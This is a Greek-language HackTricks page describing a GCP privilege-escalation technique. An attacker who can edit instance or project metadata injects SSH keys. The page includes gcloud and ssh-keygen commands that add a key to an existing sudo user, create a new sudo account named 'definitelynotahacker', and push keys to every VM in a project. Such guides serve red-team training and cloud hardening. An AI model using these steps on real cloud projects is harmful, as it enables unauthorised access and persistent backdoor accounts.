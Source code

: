 # GCP - Προσθήκη Προσαρμοσμένων Μεταδεδομένων SSH

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγράφου**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε μια μονάδα μπορεί να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας εάν ένας εισβολέας αποκτήσει τις απαραίτητες άδειες**.

### **Ενσωμάτωση Κλειδιών SSH στα Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, **τα συστήματα Linux** συχνά εκτελούν σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο είναι σχεδιασμένο να **ελέγχει τακτικά** το σημείο των μεταδεδομένων της μονάδας για **ενημερώσεις στα εξουσιοδοτημένα δημόσια κλειδιά SSH**.

Συνεπώς, εάν ένας εισβολέας μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, μπορεί να κάνει τον δαίμονα να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και **θα ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή ενδεχομένως δημιουργώντας ένα νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο εισβολέας θα μπορεί να διακινδυνεύσει τον υπολογιστή.

### **Προσθήκη κλειδιού SSH σε υπάρχον προνομιούχο χρήστη**

1. **Εξέταση των Υπαρχόντων Κλειδιών SSH στη Μονάδα:**
- Εκτελέστε την εντολή για να περιγράψετε τη μονάδα και τα μεταδεδομένα της για να εντοπίσετε τα υπάρχοντα κλειδιά SSH. Η σχετική ενότητα στην έξοδο θα βρίσκεται υπό τα `metadata`, ειδικά το κλειδί `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Προσέξτε τη μορφή των κλειδιών SSH: το όνομα χρήστη προηγείται του κλειδιού, χωρίζονται με ένα άνω και κάτω τελεία.

2. **Προετοιμασία Αρχείου Κειμένου για τα Κλειδιά SSH:**
- Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων κλειδιών SSH τους σε ένα αρχείο κειμένου με το όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών καθώς προσθέτετε νέα.

3. **Δημιουργία Νέου Κλειδιού SSH για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**
- Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο κλειδί SSH, εξασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα χρήστη στόχο.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενοι τη μορφή που βρέθηκε στα μεταδεδομένα της μονάδας.

4. **Ενημέρωση των Μεταδεδομένων Κλειδιών SSH της Μονάδας:**
- Εφαρμόστε τα ενημερωμένα μεταδεδομένα κλειδιών SSH στη μονάδα χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Πρόσβαση στη Μονάδα Χρησιμοποιώντας το Νέο Κλειδί SSH:**
- Συνδεθείτε στη μονάδα με SSH χρησιμοποιώντας το νέο κλειδί, έχοντας πρόσβαση στο κέλυφος στο πλαίσιο του χρήστη στόχου (`alice` σε αυτό το παράδειγμα).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη ενός κλειδιού SSH**

Αν δεν βρεθεί κάποιος ενδιαφέρων χρήστης, είναι δυνατό να δημιουργηθεί ένας νέος στον οποίο θα δοθούν προνόμια `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Κλειδιά SSH στο επίπεδο έργου <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να επεκτείνετε την πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον στον νέφος εφαρμόζοντας **κλειδιά SSH στο επίπεδο έργου**. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε έκδοση εντός του έργου που δεν έχει αποκλείσει ρητά τα κλειδιά SSH σε επίπεδο έργου. Εδώ υπάρχει μια περιληπτική οδηγία:

1. **Εφαρμογή Κλειδιών SSH στο Επίπεδο Έργου:**
- Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε τα κλειδιά SSH από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια εξασφαλίζει ότι τα κλειδιά SSH αναγνωρίζονται σε όλες τις VMs στο έργο, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός κλειδιών SSH σε επίπεδο έργου".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Σύνδεση σε Παραδείγματα Χρησιμοποιώντας Κλειδιά Σε Επίπεδο Έργου:**
- Με τα κλειδιά SSH σε επίπεδο έργου στη θέση τους, μπορείτε να συνδεθείτε μέσω SSH σε οποιαδήποτε έκδοση εντός του έργου. Οι έκδοση που δεν αποκλείει τα κλειδιά SSH σε επίπεδο έργου θα δεχτούν το κλειδί SSH, παρέχοντας πρόσβαση.
- Ένας άμεσος τρόπος για να συνδεθείτε μέσω SSH σε μια έκδοση είναι χρησιμοποιώντας την εντολή `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το τρέχον όνομά χρήστη σας και τα κλειδιά SSH που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει την πρόσβαση.
